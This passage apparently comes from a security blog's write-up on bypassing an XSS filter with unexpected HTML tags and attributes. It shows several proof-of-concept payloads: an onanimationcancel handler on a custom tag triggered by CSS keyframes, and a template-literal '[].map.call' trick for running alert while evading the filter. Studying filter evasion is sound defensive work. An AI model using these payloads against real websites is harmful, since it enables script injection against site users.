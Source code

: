 I didn’t even test the payload associated with the *onafterscriptexecute* event because, as you may remember, the filter blocks `<script>` tags, so it’s guaranteed to fail.

Using the payload of the *onanimationcancel* attribute and changing the payload from *print* to *alert*, that is, using the payload

{% include codeHeader.html %}
```html
<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:10s ease-in-out 0s 1 x;}</style><xss id=x style="position:absolute;" onanimationcancel="alert(1)"></xss>
```

the response was the following

![](/assets/images/2025-03-30-defeating-xss-filters-using-unexpected-html-tags-and-attributes/burp-repeater-6.png)

This implies that the filter is blocking this payload. The question is... is it blocking any of the tags, any of the attributes or the javascript code? To check if it was blocking the JavaScript code I changed it to the following code

{% include codeHeader.html %}
```html
[].map.call`${alert}1`
```

which we have already seen in previous posts, resulting in the payload as follows

{% include codeHeader.html %}
```html
<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:10s ease-in-out 0s 1 x;}</style><xss id=x style="position:absolute;" onanimationcancel="[].map.call`${alert}1`"></xss>
```

When I sent the payload, the response was the following

